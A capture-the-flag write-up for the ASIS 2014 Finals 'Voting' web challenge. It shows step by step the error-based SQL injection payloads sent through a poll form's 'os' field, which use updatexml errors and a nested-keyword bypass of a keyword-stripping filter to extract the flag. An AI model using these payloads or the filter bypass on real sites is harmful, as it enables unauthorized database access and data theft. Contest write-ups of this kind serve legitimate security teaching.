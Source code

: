 # ASIS Cyber Security Contest Finals 2014: Voting

**Category:** Web
**Points:** 175
**Description:**

> Go here:
> <http://asis-ctf.ir:12441/>

## Write-up
This website shows a poll for operating systems where the user can choose between Windows, Linux and Mac.

When submitting your choice, the following data is submitted:
```
os=Linux&submit=Submit
```
Not a lot of data, so let's try some basic SQL injection: `os=Linux'&submit=Submit`. This gives the following error:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near ''Linux''' at line 1
```
That's very interesting. We can use this error, to give us data by creating a malformed XPATH query:
```
os=Linux'-updatexml(0,concat('.',(SELECT group_concat(table_name) FROM information_schema.columns where table_schema != 'information_schema' LIMIT 10 ),'1'),2)#&submit=Submit
```
The result:
```
You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '(0,concat('.',( group_concat(table_name) infmation_schema.columns table_schema' at line 1
```
That's not the result we wanted, but still interesting. It appears some of our keywords were stripped, such as `where`, `select` and `from`. It also removed the `or` in `information`. Let's try a simple trick:
```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT group_concat(table_name) FfromROM infoORrmation_schema.columns wwherehere table_schema != 'infoORrmation_schema' LlimitIMIT 10 ),'1'),2)#&submit=Submit
```
Which gives us `XPATH syntax error: 'tbl_flag,tbl_flag,tbl_poll,tbl_p'`. The tbl_flag must contain our flag:
```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT substr(flag,1,30) FfromROM tbl_flag),'1'),2)#&submit=Submit
```
```
XPATH syntax error: 'ASIS_1dc337d61dac5cb910eb5b8c11'
```
Almost there. The XPATH error has a fixed size, so our flag is incomplete. We'll have to execute the injection one more time:
```
os=Linux'-upUPDATEdatexml(0,concat('.',(SselectELECT substr(flag,20,30) FfromROM tbl_flag),'1'),2)#&submit=Submit
```
Putting these pieces together results in `ASIS_1dc337d61dac5cb910eb5b8c17c52fef1`
## Other write-ups and resources

* <http://tasteless.se/2014/10/asis-ctf-finals-2014-voting/>
